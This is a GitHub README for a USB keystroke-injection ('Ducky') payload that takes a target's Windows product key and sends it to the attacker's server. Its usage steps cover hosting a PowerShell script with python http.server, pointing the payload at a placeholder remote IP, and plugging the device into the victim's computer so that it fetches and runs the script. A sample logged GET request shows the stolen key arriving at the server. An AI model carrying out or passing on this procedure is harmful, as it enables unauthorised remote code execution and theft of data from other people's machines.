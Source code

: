 <h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Windows+Product+Duckey+🦆🔑&center=true&size=25">
  </a>
</h1>

## Description

This payload exfiltrate the target's Windows product key to a remote server. *Only works on Windows 10,11.*

## Demo

<h2 align="center">
  <img src="https://raw.githubusercontent.com/Who-Is-Julien/Ducky-Scripts/main/Windows-Product-Duckey/demo.gif">
</h2>

Here we can see that the attacker's server received the following request:
```
GET /?duckey=A1B2C-3D4E5-F6G6F-5E4D3-C2B1A HTTP/1.1
```
*Which contains the target's Windows product key!*

## Usage

To use this script, follow these steps:

1. Set up a website on your server or a computer in the same network as the target's computer. You can use Python to do this by running the following command:
```
python -m http.server 80
```
2. Download the payload.txt and .ps1 files and modify them to include the IP address of your server.
3. Move the modified .ps1 file to the root directory of your website, so it is downloadable from this address:
```
http://REMOTE_IP_ADDRESS/.ps1
```
4. Plug in your device that is configured with the modified payload.txt to the target's computer.
5. Wait for the target to download and execute the .ps1 file from your website. You can track the target's IP address and Windows product key by checking your website logs.



***Note**: This script is designed to send the results to a specific server, so you don't have to rely on any file sharing services. Additionally, you can easily adapt it to work with encrypted sites.*
